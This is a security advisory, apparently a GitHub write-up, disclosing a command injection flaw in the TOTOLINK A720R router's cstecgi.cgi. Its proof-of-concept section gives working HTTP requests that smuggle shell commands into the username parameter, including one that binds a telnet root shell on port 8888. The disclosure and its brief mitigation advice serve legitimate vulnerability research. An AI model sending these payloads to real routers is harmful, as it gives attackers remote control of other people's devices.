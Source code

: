 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang,Zuoguang Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn,wangzuoguang16@mails.ucas.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `main` function,`QUERY_STRING` is directly passed by the attacker, so we can control the `QUERY_STRING` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:100%;" /></div>

Eventually, the initial input cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:100%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `QUERY_STRING` as **/cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;/bin/telnetd;** , and the router will excute it,such as:

```http
GET /cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;/bin/telnetd; HTTP/1.1
Host: 192.168.0.1
Accept: */*
Accept-Language: en
Connection: close
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

We set `QUERY_STRING` as **/cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;telnetd${IFS}-l${IFS}/bin/sh${IFS}-p${IFS}8888${IFS}-b${IFS}0.0.0.0;** , and the router will excute it,such as:

```http
GET /cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;telnetd${IFS}-l${IFS}/bin/sh${IFS}-p${IFS}8888${IFS}-b${IFS}0.0.0.0; HTTP/1.1
Host: 192.168.0.1
Accept: */*
Accept-Language: en
Connection: close
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

